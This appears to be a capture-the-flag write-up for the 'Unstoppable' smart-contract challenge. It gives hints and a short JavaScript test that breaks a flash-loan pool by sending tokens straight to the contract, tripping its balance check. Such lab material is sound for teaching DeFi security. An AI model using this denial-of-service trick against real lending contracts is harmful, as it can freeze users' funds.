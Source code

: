 # 1 - Unstoppable

### Hints

<details>

<summary>Hint One</summary>

There are more ways to break a flash loan than draining the contract’s token balance.

</details>

<details>

<summary>Hint Two</summary>

Simply asserting something doesn’t make it true.

</details>

### Scripted Solution

```javascript
it('Exploit', async function () {
  // Send tokens to pool contract address via token contract's `transfer`
  await this.token
    .connect(attacker)
    .transfer(this.pool.address, INITIAL_ATTACKER_TOKEN_BALANCE)
})
```
